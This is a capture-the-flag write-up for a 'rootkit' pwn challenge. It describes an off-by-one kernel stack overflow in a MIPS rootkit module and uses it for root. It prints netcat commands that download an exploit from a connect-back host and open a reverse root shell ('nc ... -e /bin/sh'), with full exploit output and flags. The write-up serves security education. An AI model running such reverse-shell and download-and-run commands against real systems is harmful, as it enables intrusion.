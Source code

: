 ## Infos

**Author**: awe  
**Category**: Pwn  
**Difficulty**: Hard  

## Description:

  Our router seems to have a weird kernel module installed... Abuse it to get root!

  Connect to it with:
  ```bash
  ssh rootkit@rootkit.insomni.hack
  Password: flag of the "microwave" task
  ```

## Solution:

The target is a very simple rootkit running on a MIPS system. It creates a `/dev/rootkit` device, which can be used to hide files on the filesystem by hooking functions used to list directories. Example interaction:
  ```bash
  echo +/home > /dev/rootkit   # Hide /home and all subdirectories
  cat /dev/rootkit             # Show hidden paths in dmesg
  ls /                         # No /home anymore
  echo -/home > /dev/rootkit   # Unhide /home
  ```

  The `resolve_path` function constructs the fullpath from a `dentry` struct, which is later used to compare against the list of hidden paths. It checks that the length of the current directory/filename is not more than the number of bytes available in the destination buffer, but actually recurses without taking the `"/"` character it inserts to join directory/file names into account. It results in a buffer overflow, where each new resolved subdirectory allows to increase the overflow size by one byte. It takes around 48 nested directories to get control over PC.

  Exploiting kernel stack buffer overflows is straight-forward however cleaning the stack in MIPS can be a pain... A nice trick here is to use the `usermodehelper` (http://www.ibm.com/developerworks/library/l-user-space-apps/) to spawn a userland connect-back shell, which is a easy CTF-style workaround. It's very dirty though, kernel will crash once that shell is closed since there was no cleanup ;)

### Exploit:

**Connect with :**

```bash
ssh rootkit@rootkit.insomni.hack
Pass: INS{L3ts g3t th1s party start3d}
```

**Send the exploit to the VM:**

  LOCAL:
  ```bash
nc -lvp 1338 < ./exploit
```

  REMOTE:
```bash
cd /home/pwner/ && nc <connect_back_ip> 1338 > exploit && chmod +x ./exploit
```

**Exploit:**

  LOCAL:
```bash
nc -lvp 1337
```

  REMOTE:
```bash
./exploit 'nc <connect_back_ip> 1337 -e /bin/sh'
```

**Profit!:**

  LOCAL:
```bash
cat /root/flag
```

## Exploit output:

```bash
Linux version 4.5.0 (root@gentoo) (gcc version 4.9.1 (crosstool-NG 1.20.0) ) #3 SMP Mon Mar 14 15:19:58 CET 2016
earlycon: Early serial console at I/O port 0x3f8 (options '38400n8')
bootconsole [uart0] enabled
CPU0 revision is: 00019300 (MIPS 24Kc)
FPU revision is: 00739300
MIPS: machine is mti,malta
Software DMA cache coherency enabled
Determined physical RAM map:
 memory: 03ffc000 @ 00000000 (usable)
kernel.dmesg_restrict = 1
route: SIOCDELRT: No such process
/ $ cd /home/pwner/
~ $ nc 192.168.2.22 1338 > exploit
~ $ chmod +x exploit
~ $ ./exploit 'nc 192.168.2.22 1337 -e /bin/sh'
[+] Resolving kernel addresses...
 [+] Resolved commit_creds to 0x80147ae0
 [+] Resolved prepare_kernel_cred to 0x80147e54
 [+] Resolved call_usermodehelper_setup to 0x8013c054
 [+] Resolved call_usermodehelper_exec to 0x8013c51c
[+] mmap the payload...
[+] Writting jump shellcode @ 0x61627364
[+] Create directories...
[+] Hide /home...
[+] Trigger stack buffer overflow ...
CPU 0 Unable to handle kernel paging request at virtual address 63642f60, epc == 63642f61, ra == 8013c484
Oops[#1]:
CPU: 0 PID: 934 Comm: kworker/u2:2 Tainted: G           O    4.5.0 #3
task: 820aa5d8 ti: 82d94000 task.ti: 82d94000
$ 0   : 00000000 00000001 63642f61 00000000
$ 4   : 82bc0f00 82bc0a00 0000003f ffffffff
$ 8   : 0000003f ffffffff 8069ef48 87ef0740
$12   : 00000000 00000000 00000000 00000000
$16   : 82bc0a00 82bc0f00 8071a41c 80698900
$20   : 82a88e1c 00000001 00000000 82a88cc0
$24   : 00000000 801578e8
$28   : 82d94000 82d97f00 82a88e80 8013c484
Hi    : 00fa83b2
Lo    : 7d71e1f9
epc   : 63642f61 0x63642f61
ra    : 8013c484 call_usermodehelper_exec_async+0xfc/0x194
Status: 1000a703	KERNEL EXL IE
Cause : 10800008 (ExcCode 02)
BadVA : 63642f60
PrId  : 00019300 (MIPS 24Kc)
Modules linked in: rootkit(O)
Process kworker/u2:2 (pid: 934, threadinfo=82d94000, task=820aa5d8, tls=00000000)
Stack : 8013c388 82bc0f00 823252d8 8014f898 00000000 00000000 8013c388 82bc0f00
	  823252d8 801061d8 00000000 00000000 00000000 00000000 00000000 00000000
	  00000000 00000000 00000000 00000000 00000000 00000000 00000000 00000000
	  00000000 00000000 00000000 00000000 00000000 00000000 00000000 00000000
	  00000000 00000000 00000000 00000000 00000000 00000000 00000000 00000000
	  ...
Call Trace:
[<8013c388>] call_usermodehelper_exec_async+0x0/0x194
[<8014f898>] schedule_tail+0x10/0x70
[<8013c388>] call_usermodehelper_exec_async+0x0/0x194
[<801061d8>] ret_from_kernel_thread+0x14/0x1c


Code: (Bad address in epc)

---[ end trace 5004159a0a669eab ]---
Fatal exception: panic in 5 secondsqemu-system-mips: terminating on signal 2
```

Meanwhile:
```bash
gentoo src # nc -lvp 1338 < exploit
listening on [any] 1338 ...
192.168.2.22: inverse host lookup failed:
connect to [192.168.2.22] from (UNKNOWN) [192.168.2.22] 37612
^C
gentoo src # nc -lvp 1337
listening on [any] 1337 ...
192.168.2.22: inverse host lookup failed:
connect to [192.168.2.22] from (UNKNOWN) [192.168.2.22] 42926
id
uid=0(root) gid=0(root)
cat /root/flag
INS{grsec's RBAC would be a much better rootkit!}
```

The kernel panic happens when the connect-back is closed.
